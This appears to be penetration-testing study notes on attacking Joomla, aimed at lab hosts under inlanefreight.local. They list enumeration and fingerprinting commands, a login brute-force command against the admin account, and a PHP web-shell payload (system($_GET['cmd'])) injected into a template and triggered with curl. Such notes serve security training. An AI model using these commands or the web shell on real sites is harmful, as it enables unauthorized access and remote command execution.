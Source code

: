 # Joomla

## **Introduction**

> * CMS used for discussion forums, photo galleries, e-Commerce, user-based communities, and more.
> * Written in PHP and uses MySQL in the backend.

***

## **Joomla Discovery/Footprinting**

| Command                                                                                                 | Description                                                                                   |
| ------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `droopescan scan joomla --url http://dev.inlanefreight.local`                                           | Enumeration via `droopescan`                                                                  |
| `python2.7 joomlascan.py -u http://dev.inlanefreight.local`                                             | Enumeration via `joomlascan.py`                                                               |
| `curl -s http://dev.inlanefreight.local/ \| grep Joomla`                                                | Check Webpage Source                                                                          |
| `curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml \| xmllint --format -` | Some Joomla versions may be fingerprinted from this file                                      |
| Browse to `http://dev.inlanefreight.local/plugins/system/cache/cache.xml`                               | The `cache.xml` file can give out an `approximate version` of Joomla                          |
| Browse to `http://dev.inlanefreight.local/media/system/js/`                                             | Some versions of Joomla can be fingerprinted by analyzing the javascript files in this folder |
| Browse to `http://blog.inlanefreight.local/robots.txt`                                                  | Check for references to Joomla                                                                |
| Browse to `http://dev.inlanefreight.local/README.txt`                                                   | Check the README file to look for references to Joomla                                        |

***

## **Joomla Users and Login Bruteforcing**

* **Administrator account:**\
  The default administrator account is admin, but the **password is set at install time**
* You can perform login broteforce by using the following: [https://github.com/ajnik/joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce)
* PoC: `sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin`

***

## **Joomla Known Vulnerabilities**

1. **PHP TEMPLATE CODE INJECTION TO RCE \[Requires Admin Account]**
   * The basic idea is to add PHP code inside a template
   * Login as Admin → Navigate to Configuration → Select a Template → Select an existing PHP file → add the following payload:
   * `system($_GET['cmd']);`
   * `curl -s http://dev.inlanefreight.local/templates/protostar/error.php?cmd=id`
2. **Joomla 3.9.4 directory traversal** [**CVE-2019-10945**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945)
   * Exploit 1: https://www.exploit-db.com/exploits/46710
   * Exploit 2: https://github.com/dpgg101/CVE-2019-10945
